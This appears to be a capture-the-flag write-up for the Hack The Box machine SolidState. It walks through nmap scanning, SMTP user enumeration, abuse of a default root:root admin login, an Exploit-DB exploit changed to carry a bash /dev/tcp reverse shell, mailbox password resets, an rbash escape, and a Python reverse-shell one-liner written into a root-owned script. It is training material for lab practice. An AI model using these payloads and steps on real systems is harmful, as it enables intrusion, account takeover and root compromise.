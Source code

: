 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.51 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/1.png">

# Port 25
We'll use a nmap script to enumerate users.
```
nmap --script smtp-enum-users.nse 10.10.10.51 -p 25 -Pn
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/2.png">

We find the user ```root```

# Port 4555
James Remote Administration Tool 2.3.2 is running on this port. The pop3 users are being managed within this service and we can change the users password. The default login is ```root:root```.

> Exploit: https://www.exploit-db.com/exploits/35513

We changed the payload so it would create a reverse shell:
```
payload = 'bash -i >& /dev/tcp/10.10.14.5/4445> 0>&1'
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/3.png">

# Port 110
We change the password for every user to ```test``` and successfully login at the pop3 service. We find a mail which contains a password:
```
telnet 10.10.10.51 110
USER mindy
PASS test
STAT
RETR 2
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/4.png">

# Initial Foothold
With the found credentials we can now login using SSH. We end up in an restricted environment:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/5.png">

Logging back in but we 'disable' loading rbash:
```
ssh mindy@10.10.10.51 'bash --noprofile'
```
Now we can download enumeration scripts like linpeas.sh or linenum.sh. Run linenum with thorough scan:
```
bash linenum.sh -t
```
We spot a script that we can edit which is owned by root. We change it contents with a php reverse shell and have a root shell on the host.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/SolidState/assets/6.png">

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /opt/tmp.py
```
After we wait for a moment we get a shell as root.






